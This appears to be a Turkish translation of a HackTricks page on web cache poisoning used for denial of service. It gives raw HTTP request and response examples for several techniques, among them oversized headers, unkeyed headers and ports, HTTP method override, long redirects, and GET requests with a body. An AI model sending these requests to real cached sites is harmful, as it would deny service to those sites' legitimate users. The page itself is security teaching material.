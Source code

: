 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
Bu sayfada, **cache sunucuları için geçerli olan** isteklere **web sunucusunun hatalarla yanıt vermesini** sağlamaya çalışmak için farklı varyasyonlar bulabilirsiniz.
{% endhint %}

* **HTTP Header Oversize (HHO)**

Web sunucusunun desteklediğinden daha büyük ama cache sunucusunun desteklediğinden daha küçük bir başlık boyutuyla bir istek gönderin. Web sunucusu, önbelleğe alınabilecek bir 400 yanıtı ile yanıt verecektir:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Karakteri (HMC) & Beklenmeyen Değerler**

Bazı **zararlı meta karakterler** içeren bir başlık gönderin, örneğin  ve . Saldırının çalışması için önce önbelleği atlatmalısınız.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
Kötü yapılandırılmış bir başlık sadece `\:` olarak bir başlık olabilir.

Bu, beklenmeyen değerler gönderildiğinde de çalışabilir, örneğin beklenmeyen Content-Type: gibi.
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Anahtarsız başlık**

Bazı web siteleri, _X-Amz-Website-Location-Redirect: someThing_ başlığı gibi istekteki belirli başlıkları **gördüklerinde** bir hata durum kodu döndürecektir:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Yöntem Aşımı Saldırısı (HMO)**

Eğer sunucu `X-HTTP-Method-Override`, `X-HTTP-Method` veya `X-Method-Override` gibi başlıklarla HTTP yöntemini değiştirmeyi destekliyorsa, sunucu bunu desteklemediği için yöntemi değiştirerek geçerli bir sayfa talep etmek mümkündür, böylece kötü bir yanıt önbelleğe alınır:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Anahtarsız Port**

Eğer Host başlığındaki port, yanıtta yansıtılıyorsa ve önbellek anahtarına dahil edilmemişse, kullanılmayan bir porta yönlendirmek mümkündür:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Uzun Yönlendirme DoS**

Aşağıdaki örnekte olduğu gibi, x önbelleğe alınmıyor, bu nedenle bir saldırgan, yönlendirme yanıt davranışını kötüye kullanarak yönlendirmenin o kadar büyük bir URL göndermesini sağlayabilir ki bu bir hata döndürsün. Ardından, önbelleğe alınmamış x anahtarı olmadan URL'ye erişmeye çalışan kişiler hata yanıtı alacaklar:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Host başlık durum normalizasyonu**

Host başlığı büyük/küçük harf duyarsız olmalıdır ancak bazı web siteleri bunun küçük harf olmasını bekler ve eğer değilse bir hata döner:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Yol normalizasyonu**

Bazı sayfalar, yolda veri URLencode gönderildiğinde hata kodları döndürecektir, ancak, önbellek sunucusu yolu URLdecode edecek ve yanıtı URLdecoded yol için saklayacaktır:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Bazı önbellek sunucuları, Cloudflare gibi, veya web sunucuları, gövdesi olan GET isteklerini durdurur, bu nedenle geçersiz bir yanıtı önbelleğe almak için kötüye kullanılabilir:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Referanslar

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
